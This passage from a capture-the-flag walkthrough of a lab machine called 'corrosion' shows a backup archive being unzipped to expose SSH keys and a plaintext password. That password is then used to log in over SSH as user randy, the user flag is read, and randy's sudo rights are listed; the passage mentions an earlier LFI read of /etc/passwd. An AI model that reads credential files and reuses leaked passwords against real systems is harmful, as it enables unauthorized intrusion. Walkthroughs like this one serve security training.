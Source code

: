 ```
***********
```

Inside the zip file are a few files as seen below:<br><br>

```
unzip user_backup.zip 

Archive:  user_backup.zip
[user_backup.zip] id_rsa password: 
  inflating: id_rsa                  
  inflating: id_rsa.pub              
 extracting: my_password.txt         
  inflating: easysysinfo.c           

cat my_password.txt 

randylovesgoldfish1998
```

Earlier, using LFI, we viewed "/etc/passwd" and determined there was a user named *randy*. Naturally, we try to SSH using *randy* and the password we just found:<br><br>

```
ssh randy@corrosion

randy@corrosion's password: 
Welcome to Ubuntu 21.04 (GNU/Linux 5.11.0-25-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

119 updates can be installed immediately.
0 of these updates are security updates.
To see these additional updates run: apt list --upgradable
```

First, we get the user.txt flag from randy:<br><br>

```
cat user.txt

98342721012390839081
```

Next, we see what kind of sudo permissions randy has:<br><br>

```
randy@corrosion:~/tools$ sudo -l

Matching Defaults entries for randy on corrosion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User randy may run the following commands on corrosion:
    (root) PASSWD: /home/randy/tools/easysysinfo
```
